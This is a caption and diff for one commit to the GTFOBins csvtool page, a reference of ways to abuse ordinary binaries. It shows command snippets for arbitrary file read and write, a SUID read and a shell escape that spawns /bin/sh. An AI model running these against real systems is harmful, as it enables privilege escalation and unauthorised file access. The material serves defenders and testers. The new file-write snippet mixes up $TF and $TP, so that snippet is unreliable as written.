

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/csvtool.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update csvtool.md
polished

```diff
--- a/_gtfobins/csvtool.md
+++ b/_gtfobins/csvtool.md
@@ -3,16 +3,17 @@ functions:
   file-read:
     - code: |
         LFILE=file-to-read.txt
-        csvtool trim t /flag
+        csvtool trim t $LFILE
   file-write:
     - code: |
-        RFILE=file-to-read
-        WFILE=file-to-write
-        csvtool trim t RFILE -o WFILE
+        LFILE=file-to-write
+        TF=$(mktemp -u)
+        echo DATA > $TF
+        csvtool trim t $TP -o $LFILE
   suid:
     - code: |
         LFILE=file-to-read
-        ./csvtool trim t LFILE
+        ./csvtool trim t $LFILE
   shell:
     - code: csvtool call '/bin/sh;false' /etc/passwd
   sudo:
```
